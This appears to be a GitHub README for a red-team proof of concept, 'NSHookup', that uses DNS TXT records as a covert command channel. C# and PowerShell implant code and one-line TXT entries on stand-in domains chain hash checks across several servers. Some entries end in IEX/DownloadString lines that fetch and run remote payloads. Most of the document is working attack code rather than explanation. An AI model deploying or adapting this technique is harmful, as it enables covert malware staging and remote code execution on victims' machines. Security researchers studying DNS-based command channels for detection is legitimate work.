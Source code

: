 ## **1. Decision making**

- In the following Proof of Concept, CSharp code is compiled and was used as an agent on a target. The purpose is to make the first request.
- Powershell is utilised as TXT entries at the dns servers

The following is a demonstration of how TXT entries in dns servers can be utilized to make decisions based on their content.
1. a request is made: ```powershell (nslookup -q=txt bad.com)[5]```
2. the response is evaluated for a specific content (eg. hash, command, etc.)
3. according to the content of the response, an "if - else" statement will be executed (3.a./3.b.)

![decision_1](https://github.com/user-attachments/assets/d4516b8d-db16-4bc3-8b22-eaefda39700d)


##### Code:
```powershell
Powershell:
$output = nslookup -q=txt bad.com

# Search for the presence of the string "ls" in the output
if ($output | Select-String -Pattern "ls") { 

	#Write-Output "The keyword 'ls' was found in the TXT records."
    $first_command = powershell (nslookup -q=txt bad-1.com)[5]
    $first_command
    
	} else { 

	#Write-Output "The keyword 'ls' was not found in the TXT records." 
    $second_command = powershell (nslookup -q=txt bad-2.com)[6]
    $second_command

	}}
```


```csharp
CSharp:
// Check if the result contains "9fe8ec4dc33fd875e8fa6560f65f9be8"
if (result.Contains("9fe8ec4dc33fd875e8fa6560f65f9be8"))
{ 

	// If the result contains "9fe8ec4dc33fd875e8fa6560f65f9be8", run a new command
	Console.WriteLine("Output contains '9fe8ec4dc33fd875e8fa6560f65f9be8', executing new command...");
	
	string newCommand = "powershell (nslookup -q=txt bad-1.com)[6]"; // Example: You can run any command here
	string newResult = RunPowerShellCommand(newCommand);
	
	// Print the results of the new command
	Console.WriteLine(newResult);
}
else
{
	// If "9fe8ec4dc33fd875e8fa6560f65f9be8" is not found, execute this code block
	string newerCommand = "powershell (nslookup -q=txt bad-2.com)[5]";
	string newerResult = RunPowerShellCommand(newerCommand);

	// Print the results of the new command
	Console.WriteLine(result);
}
```

## **2. Decision making - Pivoting (simple)**
The decision is made on the client

![pivoting1_simple](https://github.com/user-attachments/assets/b0b6e5d7-c9b5-41b2-b082-7d9d6ba00ae4)


1. First-Base:
Request to original dns at bad.com to get TXT entries.
``` nslookup -q=txt bad.com ```

2. The request is received and evaluated for a certain string/hash
If certain content is present, executes the according TXT entry:  
``` echo 'FIRST-BASE' > first_base.txt;powershell (nslookup -q=txt bad-1.com)[5] ```  
If not present, make a text file containing a humble message (continue at 5)

3. Second-Base:
Then proceed to bad-1.com which contains the next command to execute  
``` echo 'SECOND_BASE' > second_base.txt;powershell (nslookup -q=txt bad-2.at)[5] ```

4. Third-Base:
Request to kqmg.at
``` echo 'THIRD-BASE' > third_base.txt ```

5. No-Base:
Execute the fall back command in an else-statement and exit:  
<code>powershell (nslookup -q=txt some-domain.com)[5]</code>  
The fall-back domain has the following TXT entry:  
``` echo 'Nothing here to see or gain. Better luck next time' > nothing_here.txt ```

Full code here in (C#): [Implants](https://github.com/Dood3/NSHookup/tree/main/nshookup_SRC/implants)

## **2. Decision making - Pivoting (multi-hop)**

Template of a TXT entry on the 1st dns server is Powershell in one line (204 characters).
The oneliner declares the content of the response from the nslookup command as variable. Then it looks for the string "ls".  
The if-else statement declares also each nslookup requests as a variable which will be executed accordingly.  
The limit of characters in a TXT entry is 255:
```powershell
$output = nslookup -q=txt bad.com;if ($output | Select-String -Pattern "ls") { $first = powershell (nslookup -q=txt kqmg.at)[5];$first } else { $second = powershell (nslookup -q=txt bad.com)[6];$second }
```

#### *TXT Entries:*
bad.com:
```
"9fe8ec4dc33fd875e8fa6560f65f9be8"
```
bad-1.com:
```powershell
$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "4098f361bd6eccd44b7ac4948d770a60"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt bad-3.com)[5];$s}
```
bad-2.com:
```powershell
4098f361bd6eccd44b7ac4948d770a60;$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "3f33323aef889606589b98fbb62c112e"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt no-success.com)[5];$s}
```
bad-3.com:
```powershell
f6fd44d24b96ca51092b17bcb1048ac4;$o=nslookup -q=txt bad-4.com;if($o|Select-String -Pattern "sdfsgfdssgfdsg"){$f=powershell notepad.exe;$f}else{$s=powershell (nslookup -q=txt bad-4.com)[10];$s}
```
bad-4.com:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://some-malicious-mischief.ps1')|iex
```
no-success.com:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://blah.com/mischief.ps1')|iex
```
![pivoting1_multi](https://github.com/user-attachments/assets/b2d86162-0ad1-442c-b238-751876213068)


**Explanation:**

1. The implant "pivoting.exe" makes a request to bad.com with ```nslookup -q=txt bad.com```. In this case the TXT entry contains a checksum/hash:
```bad.com text = "9fe8ec4dc33fd875e8fa6560f65f9be8;"```

2. If the hash is received in the response, it executes <code>powershell (nslookup -q=txt bad-1.com)[13]</code> to another domain, which indexes the 13th TXT entry at <code>bad-1.com</code> (in this case 196 characters).
Otherwise, if the hash is not present, "pivoting.exe" leaves a text file with an error message and exits.

3. Following a successful event with the hash present, <code>bad-1.com</code> is requested, which contains the following TXT entry at the 13th position:
```powershell
$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "4098f361bd6eccd44b7ac4948d770a60"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt bad-3.com)[5];$s}
```

4. ```bad-2.com``` has a TXT entry of (235 characters):
```powershell
4098f361bd6eccd44b7ac4948d770a60;$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "3f33323aef889606589b98fbb62c112e"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt no-success.com)[5];$s}
```
Again, if the hash is returned, a request to ```bad-2.com``` is made, which contains the following TXT entry:
```powershell
3f33323aef889606589b98fbb62c112e;$o=nslookup -q=txt bad-3.com;if($o|Select-String -Pattern "f6fd44d24b96ca51092b17bcb1048ac4"){$f=powershell (nslookup -q=txt bad-3.com)[6];$f}else{$s=powershell calc.exe;$s}
```
Upon successful retrieval of the hash, ```bad-3.com``` is requested. Otherwise ```calc.exe``` will be opened.

5. ```bad-3.com``` houses the TXT entry:
```powershell
f6fd44d24b96ca51092b17bcb1048ac4;$o=nslookup -q=txt bad-4.com;if($o|Select-String -Pattern "sdfsgfdssgfdsg"){$f=powershell notepad.exe;$f}else{$s=powershell (nslookup -q=txt bad-4.com)[10];$s}
```
As long as the hash is found, ```notepad.exe``` will be opened. Otherwise the next request to ```bad-4.com``` is made, which houses the last TXT entry in this chain.

6. ```bad-4.com``` houses the TXT entry:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://some-malicious-mischief.ps1'|iex)
```
